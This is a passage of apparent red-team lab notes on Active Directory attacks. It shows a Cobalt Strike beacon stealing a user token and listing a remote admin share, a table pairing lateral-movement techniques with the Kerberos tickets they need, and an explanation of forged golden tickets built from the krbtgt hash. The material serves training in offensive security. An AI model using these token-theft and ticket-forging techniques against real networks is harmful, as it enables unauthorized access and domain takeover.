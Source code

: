 ```
beacon> steal_token 5668
[+] Impersonated DEV\bfarmer

beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
[*] Listing: \\wkstn-1.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 08:17:30   $Recycle.Bin
          dir     08/15/2022 22:22:31   $WinREAgent
          dir     01/27/2022 18:18:49   Documents and Settings
          dir     12/07/2019 09:14:52   PerfLogs
          dir     08/22/2022 00:15:03   Program Files
          dir     10/06/2021 13:57:25   Program Files (x86)
          dir     09/08/2022 13:58:46   ProgramData
          dir     08/17/2022 17:52:54   Recovery
          dir     09/06/2022 08:17:28   System Volume Information
          dir     08/16/2022 08:15:58   Users
          dir     09/09/2022 10:38:50   Windows
 8kb      fil     09/09/2022 08:37:00   DumpStack.log.tmp
 796mb    fil     09/09/2022 08:37:00   hiberfil.sys
 704mb    fil     09/09/2022 08:37:00   pagefile.sys
 16mb     fil     09/09/2022 08:37:00   swapfile.sys
```

**Here are some useful ticket combinations:**

| **Technique**       | **Required Service Tickets** |
| ------------------- | ---------------------------- |
| `psexec`            | HOST & CIFS                  |
| `winrm`             | HOST & HTTP                  |
| `dcsync` (DCs only) | LDAP                         |

## Golden Tickets

<mark style="color:yellow;">**A "golden ticket" is a forged TGT that is signed by the domain's**</mark><mark style="color:yellow;">**&#x20;**</mark><mark style="color:yellow;">**`krbtgt`**</mark><mark style="color:yellow;">**&#x20;**</mark><mark style="color:yellow;">**account**</mark>.

<mark style="color:yellow;">Where a silver ticket can be used to impersonate any user</mark>, it's <mark style="color:$danger;">limited to either that single service or to any service but on a single machine</mark>.

<mark style="color:$success;">A golden ticket</mark>, however, <mark style="color:$success;">can be used to impersonate any user, to any service, on any machine in the domain — and to make things worse, the underlying credentials are never changed automatically</mark>.&#x20;

For that reason, the <mark style="color:green;">`krbtgt`</mark> <mark style="color:$success;">NTLM/AES hash</mark> is probably the **most powerful** secret you can obtain and is why it is used in <mark style="color:yellow;">`dcsync`</mark> examples so frequently!
